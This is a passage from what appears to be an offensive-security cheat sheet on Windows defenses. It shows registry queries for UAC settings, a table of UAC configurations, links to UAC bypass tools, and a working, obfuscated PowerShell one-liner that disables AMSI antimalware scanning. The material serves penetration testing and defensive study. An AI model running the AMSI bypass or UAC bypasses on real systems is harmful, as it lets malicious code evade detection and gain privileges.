 * Check if UAC is enabled
    ```ps1
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
    ```
* Check UAC level
    ```
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v FilterAdministratorToken
    ```

| EnableLUA  | LocalAccountTokenFilterPolicy | FilterAdministratorToken | Description  |
|---|---|---|---|
| 0 | / | / | No UAC |
| 1 | 1 | / | No UAC |
| 1 | 0 | 0 | No UAC for RID 500 |
| 1 | 0 | 1 | UAC for Everyone |


* UAC Bypass
    * [AutoElevated binary signed by Microsoft](https://www.elastic.co/guide/en/security/current/bypass-uac-via-sdclt.html) - `msconfig`, `sdclt.exe`, `eventvwr.exe`, etc
    * [hfiref0x/UACME](https://github.com/hfiref0x/UACME) - Defeating Windows User Account Control


## DPAPI

Refer to [PayloadsAllTheThings/Windows - DPAPI.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20DPAPI.md)


## Powershell

### Anti Malware Scan Interface

> The Anti-Malware Scan Interface (AMSI) is a Windows API (Application Programming Interface) that provides a unified interface for applications and services to integrate with any anti-malware product installed on a system. The API allows anti-malware solutions to scan files and scripts at runtime, and provides a means for applications to request a scan of specific content.

Find more AMSI bypass: [Windows - AMSI Bypass.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Just Enough Administration
